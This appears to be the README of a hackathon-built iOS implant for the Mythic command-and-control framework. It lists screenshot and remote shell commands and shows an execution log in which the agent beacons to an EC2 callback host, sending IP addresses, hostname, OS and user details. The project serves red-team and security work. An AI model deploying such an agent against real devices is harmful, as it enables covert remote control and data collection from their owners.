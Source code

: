 # Aura iOS Agent

## Description
Aura is an iOS payload designed to interact with a Mythic C2 (command and control) server and was developed over the [2024 Microsoft Global Hackathon](https://microsoft.sharepoint.com/sites/MicrosoftGlobalHackathon2024). To fit within the time constraint of one week:
* The agent communicates over plain text HTTP channels
* Mythic will manage and initate the agent builds per-usual, but the actual compilation and configuration of the agent will take place remotely on macOS w/iOS SDK outside of Docker.
* A limited number of commands will be implemented.

### Requirements
* iOS 12.5.7+

## Operator commands
| Description | Implemented Command |
| - | - |
| Take a screenshot | `take_screenshot` |
| Execute a shell command | `shell_execution [args]` |

## Execution example
```txt
Brandon-Daltons-iPad:~ mobile$ chmod +x aura && ./aura
2024-09-20 13:00:31.313 aura[1846:240399] C2 Configuration Data:
2024-09-20 13:00:31.314 aura[1846:240399] Callback Host: http://ec2-54-245-60-126.us-west-2.compute.amazonaws.com
2024-09-20 13:00:31.315 aura[1846:240399] Callback Port: 80
2024-09-20 13:00:31.316 aura[1846:240399] Headers: {
    "User-Agent" = "Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko";
}
2024-09-20 13:00:31.316 aura[1846:240399] Payload UUID: 2a2d1c2f-88a2-4e34-81a9-b7267ae93458
2024-09-20 13:00:31.318 aura[1846:240399] [DEBUG] Check-in URL: http://ec2-54-245-60-126.us-west-2.compute.amazonaws.com:80/agent_message
2024-09-20 13:00:31.495 aura[1846:240399] [DEBUG] Check-in Data:
{
    action = checkin;
    architecture = arm64;
    domain = local;
    "external_ip" = "136.24.173.189";
    host = "brandontonsipad.localdomain";
    "integrity_level" = 2;
    ips =     (
        "192.168.0.18"
    );
    os = "iOS 12.5.7";
    pid = 1846;
    "process_name" = aura;
    user = mobile;
    uuid = "2a2d1c2f-88a2-4e34-81a9-b7267ae93458";
}
```